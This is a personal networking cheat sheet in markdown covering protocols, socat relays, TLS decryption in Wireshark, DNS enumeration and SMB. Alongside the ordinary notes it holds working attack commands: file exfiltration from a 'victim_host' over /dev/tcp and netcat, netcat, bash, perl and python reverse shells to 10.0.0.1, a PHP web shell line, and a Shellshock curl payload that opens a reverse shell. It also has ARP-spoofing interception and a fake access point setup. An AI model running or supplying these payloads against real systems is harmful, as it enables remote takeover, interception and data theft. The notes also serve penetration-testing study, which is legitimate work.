

# +

- [osint](./osint.md)
- [firewall](./firewall.sh)
- [mitmproxy](./mitmproxy.md)
- [nmap](./nmap.sh)
- [wireshark](./wireshark.md)

- Port mirroring / Switched Port Analyzer (SPAN)
- https://rootsh3ll.com/evil-twin-attack/

- http://www.networksorcery.com/enp/Protocol.htm
- https://github.com/clowwindy/Awesome-Networking

- [p0f v3](https://lcamtuf.coredump.cx/p0f3/)
    - `nmap` alternative for fingerprinting
- [GitHub \- SecureAuthCorp/impacket: Impacket is a collection of Python classes for working with network protocols\.](https://github.com/SecureAuthCorp/impacket)
- [Expired Domains \| Daily Updated Domain Lists for 477 TLDs](https://www.expireddomains.net/)
- [From Sockets to WebSockets · susam/lab · GitHub](https://github.com/susam/lab/tree/master/web/sockets)

# documentation, specification

- [RFC 768 \- User Datagram Protocol](https://tools.ietf.org/html/rfc768)
- [RFC 793 \- Transmission Control Protocol](https://tools.ietf.org/html/rfc793)
- [RFC 791 \- Internet Protocol](https://tools.ietf.org/html/rfc791)
- [RFC 8200 \- Internet Protocol, Version 6 \(IPv6\) Specification](https://tools.ietf.org/html/rfc8200)
- [RFC 792 \- Internet Control Message Protocol](https://tools.ietf.org/html/rfc792)
- [RFC 826 \- An Ethernet Address Resolution Protocol: Or Converting Network Protocol Addresses to 48\.bit Ethernet Address for Transmission on Ethernet Hardware](https://tools.ietf.org/html/rfc826)

- https://www.firewall.cx/networking-topics/protocols.html

# performance

- https://serverfault.com/questions/189784/java-fat-client-slow-when-connecting-to-localhost-fast-with-remote
- https://hc.apache.org/httpclient-3.x/performance.html
- [The C10K problem - handling ten thousand clients simultaneously](http://www.kegel.com/c10k.html)
- [Coping with the TCP TIME\-WAIT state on busy Linux servers](https://vincent.bernat.ch/en/blog/2014-tcp-time-wait-state-linux#summary)

# transfer

```bash
# 1. source_host
# - if /tmp in ro filesystem, then write to /dev
bin=socat.gz
(
printf '%s\n' \
  ': > /tmp/1';
base64 "$bin" | xargs -i printf '%s\n' "printf '%s' '"{}"' >> /tmp/1";
printf '%s\n' \
  'base64 -d /tmp/1 | gzip -d > /tmp/2' \
  'chmod +x /tmp/2' \
  '/tmp/2'
) | xclip -in

# 2. target_host
# [ Paste clipboard content... ]
# - ETA: 20000 lines ~= 10 minutes
# ||
ssh hostname tar cvjf - ./foo/ | tar xjf -
# ||
echo 'gzip -ck9 ./foo | base64 -w0' | nc foo.com 5000 | base64 -d | gzip -d

# Server sending file:
# On server:
socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
# On client:
socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat

# Server receiving file:
# On server:
socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
# On client:
socat -u FILE:test.txt TCP:127.0.0.1:9876

# Over http:
# On attacker_host:
python2 -m SimpleHTTPServer 8123
# ||
python3 -m http.server 8123
# On victim_host:
wget http://10.2.0.15:8123
```

- Listening with `/dev/tcp`
    - https://unix.stackexchange.com/questions/49936/dev-tcp-listen-instead-of-nc-listen

```bash
# Send to victim_host:
# On attacker_host:
cat ./foo | nc -l -q 1 -p 8998
# On victim_host:
cat < /dev/tcp/$target_ip/8998 > ./foo

# Send to attacker_host:
# On attacker_host:
nc -l -p 8998 -q 1 > ./foo < /dev/null
# On victim_host:
cat ./foo > /dev/tcp/$target_ip/8998 0<&1 2>&1
```

- Workaround remote commands without a login shell
    - https://susam.in/blog/file-transfer-with-ssh-tee-and-base64/

```bash
# 1. source_host
ssh user@host | tee ssh.txt
sha1sum /tmp/payload
base64 /tmp/payload
exit
# 2. target_host
sed '1,/$ base64/d;/$ exit/,$d' ssh.txt | base64 -d > payload
grep -A 1 sha1sum ssh.txt
sha1sum payload
```

- Payload processing
    - [netcat – encrypt transfer with openssl · GitHub](https://gist.github.com/leonklingele/d5bd28ee51a4b8e49baa)

- https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
- https://nullsweep.com/pivot-cheatsheet-for-pentesters/
- https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/

# reverse shell

```bash
# +
msfvenom -l payloads | awk '/cmd\/unix/{print $1}'

# netcat
nc -lvp 4242
nc -e /bin/sh 10.0.0.1 4242
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

# Bind shell
# - https://book.hacktricks.xyz/tunneling-and-port-forwarding#socat
# - https://unix.stackexchange.com/questions/22308/socat-reliable-file-transfer-over-tcp
# 1. vulnerable_host
socat EXEC:bash,pty,stderr,setsid,sigint,sane TCP-LISTEN:1337,reuseaddr,fork
# 2. attacker_host
socat FILE:"$(tty)",raw,echo=0 TCP:$vulnerable_host_ip:1337

# Upgrading to pty
# - https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# 1. attacker_host
socat file:"$(tty)",raw,echo=0 tcp-listen:8081,reuseaddr
# 2. vulnerable_host
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$attacker_host_ip:8081

# Upgrading to tty
# Alternative: drop ssh key in target_host
# References:
# - https://steemit.com/hacking/@synapse/hacking-getting-a-functional-tty-from-a-reverse-shell
# - https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell
# 1. attacker_host
stty raw -echo; nc -lp 8080; stty sane
# 2. in reverse shell
script /dev/null
# ||
reset
export SHELL=bash
export TERM=xterm
stty rows $rows columns $columns

# 1. attacker_host
python -c 'import pty; pty.spawn("/bin/sh")'
# [Ctrl-Z]
stty_state=$(stty -g)
stty raw -echo
fg
# ...
stty raw echo
# ||
stty "$stty_state"

# Validation
tty
# => /dev/pts/0
# ||
[[ $- == *i* ]] &&  echo "y" || echo "n"

# - https://stackoverflow.com/questions/32910661/pretend-to-be-a-tty-in-bash-for-any-command
# - https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal/41872292
# - https://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password
(sleep 2; echo 'admin') | script -qc 'su -c whoami - root'
0<&- script -qfc "ls --color=auto" /dev/null | cat

# - https://www.gnucitizen.org/blog/reverse-shell-with-bash/
# 1. attacker_host
exec 5<>/dev/tcp/10.0.0.1/8080
# 2. vulnerable_host
cat <&5 | while read -r l; do $l 2>&5 >&5; done
# ||
while read -r l 0<&5; do $l 2>&5 >&5; done
# ||
cat <&5 & cat >&5; exec 5>&-

# 1. vulnerable_host
bash -i > /dev/tcp/10.0.0.1/8080 0<&1 2>&1
# 2. attacker_host
script /dev/null

# Language specific
# - [Reverse Shell Generator](https://www.revshells.com/)
perl -e 'use Socket;$i="10.0.0.1";$p=8081;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
python -c 'import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 8081)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(["/bin/bash", "-i"]);'
# <?php system($_GET['c']); ?>
```

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://guide.offsecnewbie.com/shells
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://alamot.github.io/reverse_shells/
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

# relay

```bash
# debug
socat - EXEC:filan,pipes,stderr

# proxy
socat TCP-LISTEN:8080,fork,reuseaddr TCP:google.com:443

# tls tunnel
# alternatives:
# - https://www.stunnel.org/
# - https://github.com/ghostunnel/ghostunnel
socat -v tcp-listen:6667,reuseaddr,fork,bind=127.0.0.1 ssl:"$foo_server":6697
./foo_client -s 127.0.0.1

# http requests
echo "HEAD / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n" | socat -v -x -,ignoreeof openssl:google.com:443,verify=0
echo "HEAD / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n" | socat -v -x -,ignoreeof tcp:google.com:80
# ||
exec 3<>/dev/tcp/www.google.com/80 printf '%s' 'HEAD / HTTP/1.1
Host: http://www.google.com
Connection: close

' >&3 cat <&3

# web server
socat TCP-LISTEN:8080,fork,crnl SYSTEM:'printf \"HTTP/1.1 200 OK\\n\\n\"\; cat test.html'

# chat service - bind to multicast group 239.255.1.1 on interface that has unicast IP 10.0.0.10, sending and receiving on port 4242 over UDP, reading from stdin and writing to stdout.
socat - UDP-DATAGRAM:239.255.1.1:4242,ip-add-membership=239.255.1.1:10.0.0.10,ip-multicast-loop=0,bind=:4242

# remote file
# > Note that streaming eg. via TCP or SSL does not guarantee to retain packet boundaries and may thus cause packet loss.
socat -u FILE:"${HOME}/foo" TCP-LISTEN:8123,reuseaddr
socat -u TCP:10.0.0.1:8123 STDOUT > /foo

# cgi in bash
curl --head vulnerable --header 'Connection: close' --header 'User-Agent: () { :; }; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"'
```

- https://repo.or.cz/w/socat.git/blob/HEAD:/EXAMPLES
- https://github.com/fijimunkii/bash-dev-tcp

# Port scanner

```bash
target_ip=
port=1
while [ $port -lt 1024 ]; do
  echo > /dev/tcp/$target_ip/$port
  [ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt
  port=$((port + 1))
done
```

# replay

- https://tcpreplay.appneta.com/

# access point

```bash
# DHCP and DNS for access point interface (e.g. wlan3)
dnsmasq -C dnsmasq.conf -H fakehosts.conf -d
hostapd ./hostapd.conf
# NAT gateway between wlan3 and wlan0
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -P FORWARD ACCEPT
sudo iptables --table nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

- dnsmasq.conf
    ```
    interface=wlan3
    dhcp-range=10.0.0.10,10.0.0.250,12h
    dhcp-option=3,10.0.0.1
    dhcp-option=6,10.0.0.1
    server=8.8.8.8
    log-queries
    log-dhcp
    ```
- hostapd.conf
    ```
    interface=wlan3
    driver=nl80211
    ssid=Kali-MITM
    channel=1
    ```

- [Quick and easy fake WiFi access point in Kali](https://cybergibbons.com/security-2/quick-and-easy-fake-wifi-access-point-in-kali/)

# connection testing

```ps1
# Reset WINSOCK entries to installation defaults
netsh winsock reset catalog

# Reset TCP/IP stack to installation defaults
netsh int ip reset reset.log

# Reset Firewall to installation defaults
netsh advfirewall reset

# Flush DNS resolver cache
ipconfig /flushdns

# Renew DNS client registration and refresh DHCP leases
ipconfig /registerdns

# Flush routing table (reboot required)
route /f
```

```
pkgmgr /iu:"TelnetClient"
telnet www.example.com 80
```

# crawling

- logging
    - web response
- proxy server
    ```bash
    ssh -f -N -D 0.0.0.0:<port> localhost
    curl -v -x socks5://<ip>:<port>
    ```
- headers
- user-agent

- http://dendritic-trees.tumblr.com/post/157047017934

# Remote debug

```ps1
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222
netsh advfirewall firewall add rule name="Open Port 48333" dir=in action=allow protocol=TCP localport=48333
Start-Process "Chrome" "https://www.google.com --headless --remote-debugging-port=9222 --user-data-dir=remote-profile"
# || Without port forwarding
Start-Process "Chrome" "https://www.google.com --headless --remote-debugging-address=0.0.0.0 --remote-debugging-port=9222"
# || Using previous session
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"

# Rollback
netsh interface portproxy reset
netsh advfirewall firewall del rule name="Open Port 48333"
Get-Process chrome | Stop-Process
```

# RESTful API

- Client-server model — a client requests data from a separated server, often over a network
- Uniform interface — all clients and servers interact with the API in the same way (e.g., multiple resource endpoints)
- Layered system — a client doesn't have to be connected to the end server
- Statelessness — a client holds the state between requests and responses
- Cacheability — a client can cache a server's reponse

# CRUD

HTTP methods:
- POST - Creates a resource
- GET - Reads data for a resource
- PUT - Update a resource's data
- DELETE - Deletes a resource

# GraphQL



- data in a graph structure (versus by resources)
- one interface (versus multiple endpoints)
- type system
    - for each node an object type
- entrypoints
    - query
    - mutation

> Data exposed to the API is represented by a graph where objects are represented by nodes and relationships between these objects are described by edges.  GraphQL is a RESTful API and more: a type system defines all queryable data on one endpoint.  There is no mapping between functions implemented on the server and HTTP methods. Each object is backed by a resolver. The resolver is responsible for accessing the server’s data.

# MTU

> The DHCP client daemon was not applying the MTU setting received from my DHCP server (On my private network I have set the MTU to 9000).
> There was a disabled option in /etc/dhcpcd.conf:
    ```
    option interface_mtu
    ```
> I enabled it and it worked.
> Now I understand why only the local websites could not be loaded, because the server responded with frames that were too big whereas those from the router never exceeded 1500B because they came from my ISP network.

# private addresses

- not recognized by Internet routers.
- packets with either source or destination private addresses are not forwarded across Internet links.

Address blocks:

    Class A 10.0.0.0 - 10.255.255.255
    Class B 172.16.0.0 - 172.31.255.255
    Class C 192.168.0.0 - 192.168.255.255

- [RFC 1918 \- Address Allocation for Private Internets](https://tools.ietf.org/html/rfc1918)

# qvalue

- Suffix ';q=' immediately followed by a value between 0 and 1 included, with up to three decimal digits, the highest value denoting the highest priority. When not present, the default value is 1.
- HTTP headers using q-values in their syntax: Accept, Accept-Charset, Accept-Language, Accept-Encoding, TE.

- [Quality values \- MDN Web Docs Glossary: Definitions of Web\-related terms \| MDN](https://developer.mozilla.org/en-US/docs/Glossary/Quality_values)
- [HTTP/1\.1: Protocol Parameters](https://www.w3.org/Protocols/rfc2616/rfc2616-sec3.html#sec3.9)
- [HTTP/1\.1: Content Negotiation](https://www.w3.org/Protocols/rfc2616/rfc2616-sec12.html#sec12)
- [RFC 7230 \- Hypertext Transfer Protocol \(HTTP/1\.1\): Message Syntax and Routing](https://tools.ietf.org/html/rfc7230#section-4.3)
- [RFC 7231 \- Hypertext Transfer Protocol \(HTTP/1\.1\): Semantics and Content](https://tools.ietf.org/html/rfc7231#section-5.3.1)

# tcp server

```bash
# listen
nc -lvp 4444 -e /bin/bash
# connect
nc 127.0.0.1 4444
```

# log pid

### firewall

```bash
# Firewall managed ports
iptables -I INPUT -p tcp --dport some_port --jump LOG --log-level DEBUG

# Only new connection attempts
iptables -I INPUT -p tcp --dport some_port -m state --state NEW

# Validation
tail -f /var/log/messages
```

### auditd

```bash
# Enable
auditctl -a exit,always -F arch=b64 -S connect -k MYCONNECT

# Disable
auditctl -d ...

# Validation
ausearch -i
```

- https://serverfault.com/questions/352259/finding-short-lived-tcp-connections-owner-process
    - https://www.daemon.be/maarten/auditd.html

### ip_conntrack

```bash
modprobe ip_conntrack
cat /proc/net/ip_conntrack
```

### SELinux managed ports

```bash
semanage port -l

# Validation
tail -f /var/log/audit/audit.log
```

### polling

```bash
while true; do
  netstat -an | grep ESTABLISHED
  sleep 0.1
done

cat /proc/net/tcp
# Take `inode`, iterate through pids and fds until found
readlink /proc/$pid/fd/$fd
```

- https://superuser.com/questions/34782/with-linux-iptables-is-it-possible-to-log-the-process-command-name-that-initiat

# network bandwidth / throughput

```bash
# server
nc -l -p 12345 | wc -c

# client
dd if=/dev/zero bs=1024K count=512 | nc -q 0 $server_ip 2222

# dd output
# 536870912 bytes (537 MB) copied, 4.87526 s, 117 MB/s

# || tune timing, buffers and protocols
iperf -s
iperf -i 1 -c $server_ip
```

- https://iperf.fr/
    - https://fasterdata.es.net/performance-testing/network-troubleshooting-tools/iperf/

# network topology

- ZMap on reachable prefixes for common service ports
- http://noahdavids.org/self_published/Tracing_packets_without_collecting_data.html
    > at least "-s 94" for IPv4 or "-s 114" for IPv6

```bash
# packet trace
traceroute

# given netmask 255.255.255.0
# => ignore broadcast addresses: 10.0.2.0, 10.0.2.255
iproute
# => ignore gateway address: default via 10.0.2.1 dev enp0s1
ifconfig
# => take ip of active network device, e.g. enp0s1
```

- Type
    - Network A - 192.168.9.0/24 - hub network
    - Network B - 192.168.2.0/24 - adjacent network 1
    - Network C - 192.168.3.0/24 - adjacent network 2
- LAN = shared physical network
    - OSI Model layers - 1 + 2
- Wifi - IEEE 802.11
    - [!] if not connected on LAN, attacker cannot get ip of router, since ip protocol is at OSI Model Layer 3
    - packages - kernel (builtin modules), firmware (intel-microcode), udev...

|            --- |      802.11ac |  802.11n | 802.11g | 802.11b | 802.11a |
|---------------:|--------------:|---------:|--------:|--------:|--------:|
| Frequency Band |          5GHz | 2.4;5GHz |  2.4GHz |  2.4GHz |    5GHz |
|      Data Rate | 1300-1733Mbps |  450Mbps |  54Mbps |  11Mbps |  54Mbps |
|  Channel Width |   20;40;80MHz | 20;40MHz |   20MHz |   20MHz |   20MHz |

# network segmentation, private VLANs, intra/inter VLAN ACLs

- IPSEC gives you kerberos authentication out of the gate. Use it. Build AD groups for your tier 0/tier 1 administrators and machines.
- Enforce bastion hosts with MFA.
- Use ASR for neutering WMI calls.
- Available in GPO and MEM, auditing exists.
- https://medium.com/@cryps1s/endpoint-isolation-with-the-windows-firewall-462a795f4cfb

# sequence diagram

- Wireshark > Statistics > Flow Graph
- https://github.com/fran-ovia/pcap2puml-py
- https://github.com/dgudtsov/pcap2uml
- https://sourceforge.net/projects/callflow/

# ARP Spoofing, ARP Poisoning

- ~/code/snippets/arp_spoof.py

```bash
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
arpspoof -i eth0 -t 192.168.10.9 192.168.10.10
# reverse proxy mode
mitmproxy -R https://192.168.10.10
```

# HTTP

SYN and ACK bits sent and received in both directions

- https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Technical_overview
- [RFC 7230 \- Hypertext Transfer Protocol \(HTTP/1\.1\): Message Syntax and Routing](https://tools.ietf.org/html/rfc7230)

### HTTP/2

```bash
# Validate server push requests
nghttp -v -ans https://foo/index.html
# || https://github.com/fstab/h2c
# || chrome://net-export
```

# TLS

- Obsoletes: SSL

- Flow
    1. Client Hello: Client Random [+ Session ID] + Cipher Suites Supported
    2. Server Hello: Server Random [+ Session ID] + Cipher Suite Selected + Certificate
        - Avoids replay attacks: Master Key depends on new generated Server Random
            - https://security.stackexchange.com/questions/89383/why-does-the-ssl-tls-handshake-have-a-client-and-server-random
            - https://security.stackexchange.com/questions/98261/purpose-of-client-and-server-random-numbers-in-ssl-handshake
            - https://security.stackexchange.com/questions/218491/why-using-the-premaster-secret-directly-would-be-vulnerable-to-replay-attack
    3. Client Response: Encrypted Pre-Master Secret + Change Cipher Spec
    4. Server Response: Change Cipher Spec

- Capture
    - Npcap || Win10Pcap
        - https://nmap.org/npcap/vs-winpcap.html
    - Wireshark Legacy - skips interface verification
    - https://wiki.wireshark.org/CaptureSetup/InterferingSoftware
        - Cisco VPN client: may hide all packets, even if not connected - disable the firewall in the Cisco VPN client or stop the "Cisco Systems, Inc. VPN Service"
    - https://begriffs.com/posts/2020-05-25-libressl-keylogging.html

- Decrypt
    - With Private Key
        - Edit > Preferences > Protocols > SSL > RSA keys list
            - IP, Port - from host that holds the private key used to decrypt the data and serves the certificate (i.e. the decrypting host, the server)
            - Protocol - upper-layer protocol encrypted by SSL/TLS, e.g. the protocol encrypted over a HTTPS connection is HTTP
            - SSL debug file = C:\Temp\ssl_debug.txt
        - :( If a Diffie-Hellman Ephemeral (DHE) or RSA ephemeral cipher suite is used, the RSA keys are only used to secure the DH or RSA exchange, not encrypt the data.
            - Cipher Suite = TLS_DHE, SSL_DHE
            - ServerKeyMessage
        - :( Capture must include SSL/TLS session establishment
            - Server sends certificate
            - SSL debug file = `ssl_restore_session can’t find stored session`
        - :( Duplicate packets
            - `editcap -d`
        - https://packetpushers.net/using-wireshark-to-decode-ssltls-packets/
        - https://www.ibm.com/developerworks/web/tutorials/wa-tomcat/index.html
    - Without Private Key
        - File > Export SSL Session Keys...
    - Packet list
        - Before = tcp
        - After = tcp, http, ssl, tls
    - Packet details > Expand: "Hypertext Transfer Protocol", "Line-based text data: text/html"
    - Print > Packet Format > Packet details = As displayed
    - https://github.com/tanc7/Practical-SSL-TLS-Attacks/blob/master/TLS-mitm-methods.md
    - https://blogs.technet.microsoft.com/nettracer/2010/10/01/how-to-decrypt-an-ssl-or-tls-session-by-using-wireshark
    - https://blogs.technet.microsoft.com/nettracer/2013/10/12/decrypting-ssltls-sessions-with-wireshark-reloaded/

- Integrity
    - https://crypto.stackexchange.com/questions/1139/what-is-the-purpose-of-four-different-secrets-shared-by-client-and-server-in-ssl
    - https://stackoverflow.com/questions/3655516/does-encryption-guarantee-integrity
    - http://world.std.com/~dtd/sign_encrypt/sign_encrypt7.html

- Termination of TCP connection = encrypted alert, SSL_shutdown
    - https://osqa-ask.wireshark.org/questions/38050/tlsv1-record-layer-encrypted-alert
    - https://www.openssl.org/docs/ssl/SSL_shutdown.html
    - https://tools.ietf.org/html/rfc5246#page-29

- Certificate Requirements for TLS
    - Version = V3
    - Enhanced Key Usage = Server Authentication OID
    - Subject = Server FQDN
    - Subject Alternative Name = Server DNS FQDN
    - Public Key = RSA
    - Key Usage = "Digital Signature", "Key Encipherment"
    - https://documentation.meraki.com/zGeneral_Administration/Other_Topics/Certificate_Requirements_for_TLS
    - https://support.microsoft.com/en-my/help/814394/certificate-requirements-when-you-use-eap-tls-or-peap-with-eap-tls

- Local network is untrustworthy, cannot confirm it is connected to secure gateway, unknown CA
    - http://blog.bstpierre.org/fixing-certificate-errors-with-cisco-anyconnect
    ```bash
    vpn_server=
    openssl s_client -connect www."$vpn_server".com:443 2>&1 | sed -n '/^issuer=/s/.*CN=//p'
    # Given CA name, download input.crt
    # || Use keystore:
    # cp $(dpkg -L ca-certificates | grep -i thawte) /tmp/certificate-conversion/
    # || Copy all global certificates
    # sudo cp /etc/ssl/certs/cd /etc/ssl/cert/* /opt/.cisco/certificates/ca
    openssl x509 -in input.crt -out input.der -outform DER
    openssl x509 -in input.der -inform DER -out output.pem -outform PEM
    cp output.pem ~/.cisco/certificates/ca
    ```

- User Authentication against Active Directory, Dissecting EAP-TLS
    - SAM Account Name (short name) vs User Principle Name (UPN, includes domain)
    - ~/Downloads/BRKSEC-3229.pdf

- https://crypto.stackexchange.com/questions/27131/differences-between-the-terms-pre-master-secret-master-secret-private-key
- [The Illustrated TLS Connection: Every Byte Explained](https://tls.ulfheim.net/)
- [The Transport Layer Security (TLS) Protocol Version 1.2](https://datatracker.ietf.org/doc/html/rfc5246)
- [RFC 2246 \- The TLS Protocol Version 1\.0](https://tools.ietf.org/html/rfc2246)

# USB

- capture setup
    - Linux: Wireshark
        ```bash
        # Grant permissions for USB capture interfaces
        # - http://derbymakers.co.uk/articles/2019/capturing-usb-communications-to-reverse-engineer-a-driver/
        sudo modprobe usbmon
        sudo setfacl -m u:$USER:r /dev/usbmon*
        sudo modprobe -r usbmon
        ```
    - Windows: [USBPcap](http://desowin.org/usbpcap/)
        - [Can&\#39;t capture packets from one device · Issue \#16 · desowin/usbpcap · GitHub](https://github.com/desowin/usbpcap/issues/16)
    - Virtual machine with USB passthrough

# DNS

- Caching - based on zone reported TTLs
    - https://superuser.com/questions/1533833/how-are-dns-records-updated-to-all-dns-servers-in-the-internet
- [RFC 1035 \- Domain names \- implementation and specification](https://tools.ietf.org/html/rfc1035)
    - 3.2.2. TYPE values

## Reverse DNS lookup

```bash
for i in {0..255}; do dig +short -x 104.21.76.$i; done
# ||
python3 dnsrecon.py -d google.com -r 74.125.142.147/30 -n 8.8.8.8
```

- https://github.com/Shiva108/CTF-notes/blob/master/Notes%20VA/IP%2C%20DNS%20Domain%20Enumeration%20Cheatsheet.txt

## Resolving domain to localhost

/etc/hosts

```
127.0.0.1 domain.com
php -S 127.0.0.1:80
```

## Enumerating subdomains

### From SSL certificate

- https://censys.io/certificates

```bash
echo | \
    openssl s_client -connect foo.com:443  | \
    openssl x509 -noout -text | \
    grep DNS
curl 'Host: enumerated.foo.com' 10.0.0.123
```

### From certificate transparency report

- https://www.google.com/transparencyreport/https/ct/

## DNS Zone Transfer

- TCP port 53
- nmap gateway_ip_or_host

Examples:

- [CTFtime\.org / EKOPARTY CTF 2017 / Spies / Writeup](https://ctftime.org/writeup/7505)
    - Take all subdomains, sort response hashes from `curl -H "Host: $subdomain`

### linux

```bash
# 1. Take name server
dig NS domain.name

# 2. Discover hostnames
dig -t AXFR @dns-server domain.name
host -t axfr domain.name dns-server
# ||
host -a domain.name
```

### windows

nslookup

> set type=any
> ls -d wayne.net > dns.wayne.net
> ls -t wayne.net > list.wayne.net
> exit

# sqlserver trace

- Microsoft Message Analyzer
    - https://www.microsoft.com/en-us/download/details.aspx?id=44226

1. New Session
2. New Data Source > Live Trace
3. Scenario > Select:
    - If AppFoo and SQL on same system: Loopback and Unencrypted IPsec
    - If AppFoo and SQL on separate systems: Local Network Interfaces
4. Start
5. Message Table > Column Header > Add Columns > TDS > SQLBatch > SqlBatchPacketData > Right Click: SQLText > Add as column
    - https://stackoverflow.com/questions/2023589/how-can-i-decode-sql-server-traffic-with-wireshark

- clear log
    - restart session
- mma
    - `TDS`
    - `*SQLText contains "a"`
    ```
    Fail to start live consumer
    Please reinstall Message Analyzer to correct the problem. If the PEF-WFP-MessageProvider continues to fail, you may have a conflict with a third party filter driver or your computer might have reached the maximum number of drivers allowed, for example, on a Windows 7 machine. To resolve this issue, you can try increasing the filter driver limit in the registry.
    ```
- test
    - sqlcmd without `-N` (encrypt connection)
- validate TDS packets are sent
    - Transact-SQL session > Query menu > Include Client Statistics

- https://dragos.com/blog/industry-news/threat-hunting-with-python-part-4-examining-microsoft-sql-based-historian-traffic/
- https://www.anitian.com/hacking-microsoft-sql-server-without-a-password/
- https://cqureacademy.com/blog/secure-server/tabular-data-stream
- https://docs.microsoft.com/en-us/message-analyzer/applying-and-managing-filters
- https://docs.microsoft.com/en-us/message-analyzer/filtering-live-trace-session-results

- || dump tables and diff before and after action on app

---

```bash
# https://www.wireshark.org/docs/dfref/t/tds.html
tshark -i lo -d tcp.port==1433,tds -T fields -e tds.query
```

> The "Microsoft-Windows-NDIS-PacketCapture" provider is used by Message Analyzer, the "netsh trace" command and the "NetEventPacketCapture" PowerShell cmdlets (in particular, the "Add-NetEventPacketCaptureProvider" cmdlet).
    - http://gary-nebbett.blogspot.com/2018/06/gary-gary-2-2132-2018-06-06t153500z.html

- Loopback
    - On: WMA > Add System Providers
    - Microsoft-Windows-WFP
        - (= Windows Filtering Provider)
    - MSSQLSERVER Trace
    - sqlserver

```
netsh trace start scenario=NetConnection capture=yes report=yes persistent=no maxsize=1024 correlation=no traceFile=C:\Temp\NetTrace.etl
netsh trace stop
```

- https://blogs.technet.microsoft.com/yongrhee/2018/05/25/network-tracing-packet-sniffing-built-in-to-windows-server-2008-r2-and-windows-server-2012-2/

# url encoding

```bash
# GET
curl http://foo -G --data-urlencode 'a=foo bar'
# POST
curl http://foo --data-urlencode 'a=foo bar'
```

```python
urllib.unquote(c)
```

# raw requests

```bash
# workaround EOF
printf "GET /api/authorize?cmd=ls HTTP/1.1\r\nHost: 157.90.22.14:8832\r\n\r\n" | tee /dev/stderr | (nc --no-shutdown 157.90.22.14 8832 &; p=$!; sleep 1 && kill "$p")

# debug - compare sent bytes
printf "GET [...]" | xxd
curl foo --trace /dev/stderr >/dev/stdout
```

- Check trailing `\n`
- [ncat closes connection before server response · Issue \#1229 · nmap/nmap · GitHub](https://github.com/nmap/nmap/issues/1229)

# send null byte in URL

```bash
# Given server: ~/code/snippets/py/flask-get-echo.py
echo $'GET /ls\x00\x41 HTTP/1.1\r\nHost: localhost:5000\r\n\r\n' | nc localhost 5000
# "GET /lsA HTTP/1.1" 200 -
# You said (len = 4): b'ls\x00A'

# [!] Silent truncation
curl http://localhost:5000/ls$'\x00\x41'
# "GET /ls HTTP/1.1" 200 -
# You said (len = 2): b'ls'

curl 'http://localhost:5000/ls%00%41'
# "GET /ls%00A HTTP/1.1" 200 -
# You said (len = 4): b'ls\x00A'
```

# dump

```bash
echo -n "POST / HTTP/1.1\r\nHost: ac281f2f1e11201c8009578100490024.web-security-academy.net\r\nCookie: session=Q5yRgVdBGWyLtH2VIG1pvMTHgvWo82FM\r\nContent-Length: 6\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nA" | openssl s_client -debug -ign_eof -connect ac281f2f1e11201c8009578100490024.web-security-academy.net:443
# With SSL decrypted: Add `-cypher NULL`
# - :( server may reject request

tcpdump -i any -s 0 -l -vvv -w - dst port 3306 | strings
tcpdump -i any -s 0 -l -vvv -w /tmp/1.pcap

tcpdump -i tun0 icmp
ping -c1 123

tcpflow -a -r foo.pcap -o ./out/
```

# smb

```bash
host=
share=
smbclient "//$host/$share"

domain=
user=
pass=
curl -u "$domain\\$user:$pass" "smb://$host/$share"
mount -t cifs -o $user,$pass "//$host/$share" /mnt/foo/
smbget -u "$domain/$user" "smb://$host/d\$/foo"

smbtree
